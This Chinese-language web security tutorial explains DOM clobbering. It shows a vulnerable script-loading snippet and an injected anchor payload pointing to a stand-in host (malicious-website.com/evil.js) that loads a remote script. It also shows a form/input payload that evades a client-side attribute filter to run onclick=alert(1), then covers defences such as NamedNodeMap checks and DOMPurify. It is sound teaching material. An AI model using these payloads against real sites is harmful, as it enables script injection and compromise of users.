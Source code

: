 
如果你能控制頁面上的一些 HTML，可以用一個 DOM (如 anchor) 來欺騙 someObject 的引用  

看看下面的 code:
```html
<script>
  window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
  };
</script>
```


為了利用這段易受攻擊的 code，可以 inject 以下 HTML，用 anchor 來破壞 `someObject` 引用：

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```


由於這兩個 anchor **使用相同的 ID**
- DOM 將它們分組在一個 DOM 集合中
- 然後，DOM clobbering vector 用這個 DOM 集合覆蓋了 `someObject` 引用
- 最後一個 anchor 上使用 `name` 屬性，以覆蓋 `someObject` 對象的 `url `屬性，它指向一個外部腳本


另種常見的技術是使用 `form` 和 `input` 來覆蓋 DOM 屬性
- 如，刪除 `attributes` 屬性能夠繞過在邏輯中使用它的 client side filter
- 雖然 filter 會列舉 `attributes` 屬性，但它實際上不會刪除任何 `attributes`
  - 因為該屬性已經被 DOM node 所覆蓋。因此，能夠 inject 通常會被過濾掉的惡意屬性
  
例如：
```html
<form onclick=alert(1)><input id=attributes>Click me
```


在這種情況下，client side filter 將遍歷 DOM 並遇到一個白名單的 `form` 元素
- 通常情況下，filter 會循環瀏覽 form 的屬性'，並刪除任何被列入黑名單的屬性
- 然而，由於 `attributes` 屬性已經被 input 覆蓋了，過濾器就會通過 input 元素進行循環
- 由於 input 有一個未定義的長度，過濾器的 for 循環條件(例如 `i<element.attributes.length`)沒有被滿足
  - filter 只是簡單地轉到下一個元素。這導致 filter 完全忽略了 `onclick` 事件，隨後允許在瀏覽器中呼叫 `alert()`

---

## 如何防止 DOM-clobbering 攻擊

最簡單的說
- 實施檢查來防止 DOMclobbering vulnerabilities 攻擊，以確保 object 或 function 是期望的
- 如，可以檢查 DOM node 的屬性是否真的是 `NamedNodeMap` 的實例
  - 這可以確保該屬性是一個屬性，而不是一個空洞的 HTML 元素
- 也應該避免編寫引用 global variable 與邏輯 OR `||` 結合的 code，這可能會導致 DOM clobbering vulnerabilities 的出現。

綜上所述：

- 檢查 object 和 function 是否合法。如果過濾 DOM，確保檢查 object 或 function 不是一個 DOM node
- 避免不良的 code。應避免將 global variable  與 `||` 結合使用
- 用良好 test 的 library，如 `DOMPurify`，它考慮到了 DOM-clobbering vulnerabilities 的問題。
